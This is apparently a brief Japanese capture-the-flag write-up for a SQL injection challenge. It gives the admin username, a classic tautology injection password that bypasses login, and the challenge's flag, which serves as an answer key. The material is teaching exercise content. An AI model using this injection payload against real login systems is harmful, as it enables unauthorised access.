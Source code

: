 ## SQL injection
SQL injection攻撃をご存知ですか？

## URL
[source](https://github.com/ravoratory/pgctf2-q5)
## Writeup
username: `admin`  
password: `t' OR 't' = 't`  
でOK

## flag

pgctf{sql_injection_is_horrible}
